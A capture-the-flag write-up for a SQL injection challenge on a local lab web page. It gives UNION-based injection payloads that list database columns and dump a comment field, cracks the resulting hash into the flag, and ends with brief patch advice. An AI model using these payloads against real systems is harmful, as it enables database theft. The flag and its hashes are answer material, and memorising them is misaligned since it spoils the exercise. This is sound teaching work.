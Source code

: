 # B05-BlindSQLInjection-SearchImage

In this case we have to exploit this page:

>`http://192.168.56.106/index.php?page=searchimg`

In the previous exploit [b04-SQLInjection-members](/b04-SQLInjection-members) we also find,

![image](https://github.com/Seriots/Darkly/assets/94530285/fae66b82-bab0-4867-9426-6da39ffa1d86)

so let's try to start by it,

>`1 OR 1 UNION SELECT column_name,null FROM information_schema.columns WHERE table_schema=database()`

![image](https://github.com/Seriots/Darkly/assets/94530285/e194fc42-50e1-4ba4-804d-97ed9fa2f307)

We have 4 columns but one is interesting: `comment`

>`1 OR 1 UNION SELECT comment,null FROM list_images`

![image](https://github.com/Seriots/Darkly/assets/94530285/2e85d3e6-85fd-4c85-909c-b6855e9a4b8f)

So let's decrypt it:

>`1928e8083cf461a51303633093573c46 : albatroz`

To SHA256 to get the flag,

>`albatroz : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`


## PATCH

For patch this one we have to `improve` the `sanitization/validation` of input provide by an user,

to `block sql injection`.

`Stop` writing `dynamic queries` with string concatenation or

Prevent malicious SQL input from being included in executed queries.
